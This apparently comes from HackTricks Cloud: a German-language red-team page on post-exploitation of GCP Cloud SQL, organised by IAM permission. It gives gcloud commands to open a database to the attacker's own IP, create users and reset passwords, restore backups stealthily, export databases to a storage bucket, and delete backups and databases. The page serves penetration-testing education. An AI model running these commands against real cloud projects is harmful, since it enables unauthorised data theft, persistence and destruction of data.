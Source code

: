 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Cloud SQL

Für weitere Informationen zu Cloud SQL siehe:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Um eine Verbindung zu den Datenbanken herzustellen, **benötigst du nur Zugriff auf den Datenbankport** und musst den **Benutzernamen** und das **Passwort** kennen, es gibt keine IAM-Anforderungen. Eine einfache Möglichkeit, Zugriff zu erhalten, vorausgesetzt, die Datenbank hat eine öffentliche IP-Adresse, besteht darin, die erlaubten Netzwerke zu aktualisieren und **deine eigene IP-Adresse den Zugriff zu erlauben**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Es ist auch möglich, **`--no-backup`** zu verwenden, um die **Backups** der Datenbank zu **stören**.

Da dies die Anforderungen sind, bin ich mir nicht ganz sicher, wofür die Berechtigungen **`cloudsql.instances.connect`** und **`cloudsql.instances.login`** sind. Wenn du es weißt, sende einen PR!

### `cloudsql.users.list`

Erhalte eine **Liste aller Benutzer** der Datenbank:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Diese Berechtigung erlaubt es, **einen neuen Benutzer innerhalb** der Datenbank zu erstellen:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Diese Berechtigung erlaubt es, **Benutzer innerhalb** der Datenbank zu **aktualisieren**. Zum Beispiel könnten Sie das Passwort ändern:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups könnten **alte sensible Informationen** enthalten, daher ist es interessant, sie zu überprüfen.\
**Stellen Sie ein Backup** in einer Datenbank wieder:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Um es auf eine stealthy Weise zu tun, wird empfohlen, eine neue SQL-Instanz zu erstellen und die Daten dort wiederherzustellen, anstatt in den derzeit laufenden Datenbanken.

### `cloudsql.backupRuns.delete`

Diese Berechtigung erlaubt das Löschen von Backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportieren Sie eine Datenbank** in einen Cloud Storage Bucket, damit Sie von dort darauf zugreifen können:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importieren Sie eine Datenbank** (überschreiben) aus einem Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Löschen Sie eine Datenbank aus der DB-Instanz:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
